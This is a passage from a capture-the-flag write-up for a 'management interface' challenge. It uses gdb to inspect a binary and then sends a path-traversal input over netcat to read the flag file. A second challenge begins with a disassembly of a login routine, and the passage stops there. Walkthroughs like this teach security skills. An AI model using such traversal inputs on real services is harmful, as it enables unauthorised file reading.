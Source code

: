 What's `_ZL9FLAG_FILE`?

```
(gdb) printf "%s\n", 0x41414a2c
flag
```

After all that, that was it? Well, at least we know how to get the flag now.
One last trick - we can get the current directory of the running process with
`/proc/self/cwd`:

```
nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../proc/self/cwd/flag
CTF{I_luv_buggy_sOFtware}
```

## Challenge 2
That got our feet wet. The next challenge is a bit trickier.
Can we get through the login screen?

```
nc mngmnt-iface.ctfcompetition.com 1337'
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1
Please enter the backdoo^Wservice password:
CTF{I_luv_buggy_sOFtware}
! Two factor authentication required !
Please enter secret secondary password:
```

Oh boy, what now? Let's look at the program again.

```
gdb ./mngmnt
Reading symbols from ./mngmnt...done.
(gdb) disas primary_login
Dump of assembler code for function primary_login():
... lots of code ...
   0x0000000041414627 <+188>:   jne    0x41414630 <primary_login()+197>
   0x0000000041414629 <+190>:   callq  0x41414446 <secondary_login()>
   0x000000004141462e <+195>:   jmp    0x41414646 <primary_login()+219>
   0x0000000041414630 <+197>:   lea    0x5b9(%rip),%rdi        # 0x41414bf0
   0x0000000041414637 <+204>:   callq  0x400a90 <puts@plt>
   0x000000004141463c <+209>:   mov    $0x1,%edi
---Type <return> to continue, or q <return> to quit---
   0x0000000041414641 <+214>:   callq  0x400aa0 <exit@plt>
   0x0000000041414646 <+219>:   leaveq
   0x0000000041414647 <+220>:   retq
End of assembler dump.
```
